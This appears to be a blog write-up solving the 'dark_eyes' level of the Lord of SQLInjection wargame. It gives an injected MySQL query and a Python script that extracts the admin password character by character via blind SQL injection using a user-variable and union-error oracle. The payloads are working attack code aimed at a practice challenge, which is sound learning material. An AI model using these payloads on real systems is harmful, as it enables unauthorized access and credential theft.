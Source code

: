```yaml
---
title: "LOS dark_eyes"
date: 2020-08-07
tag: [pwnable]
layout: post
part: WEB
---
```

select id from prob_dark_eyes where id='admin' and pw='' or id ="admin" and 1=@a:=(pw like "%") or (select @a union select 1)#'
변수 이용

{% highlight python %}
import requests

url = "https://los.rubiya.kr/chall/dark_eyes_4e0c557b6751028de2e64d4d0020e02c.php"
cookies={"PHPSESSID":"7hmapfplqqubhhudbr837hol1s"}
# for i in range(100):
#   params = {"pw":"' or id ='admin' and 1=@a:=(length(pw)={}) or (select @a union select 1)#".format(str(i))}
#   r = requests.get(url=url, params=params, cookies=cookies)
#   if r.text != '':
#     print(r.text)
#     print(i)
#     break
st=""
for j in range(8):
  for i in range(48,127):
    params = {"pw":"' or id ='admin' and 1=@a:=(BINARY pw like '{}%') or (select @a union select 1)#".format(st+chr(i))}
    r = requests.get(url=url, params=params, cookies=cookies)
    if r.text != '':
      st+=chr(i)
      break
print(st)
{% endhighlight %}
